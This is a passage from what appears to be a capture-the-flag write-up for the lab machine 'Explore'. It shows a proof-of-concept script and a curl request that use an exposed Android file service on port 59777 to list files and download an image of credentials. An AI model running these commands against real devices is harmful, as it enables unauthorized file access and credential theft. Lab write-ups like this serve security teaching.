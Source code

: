Same files come back from `listFile`:

```

oxdf@parrot$ python poc.py --cmd listFiles --host 10.10.10.247  
[*] Executing command: listFiles on 10.10.10.247
[*] Server responded with: 200
[
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", }, 
{"name":"vndservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
{"name":"vendor_service_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_seapp_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_property_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
{"name":"vendor_hwservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_file_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
...[snip]...

```

### Find SSH Password

Enumerating this port, it’s actually the `listPics` command that helps for Explore:

```

oxdf@parrot$ curl 10.10.10.247:59777 -d '{"command": "listPics"}'
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
]

```

One of the images is named `creds.jpg`. I’ll get it:

```

oxdf@parrot$ python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg

```
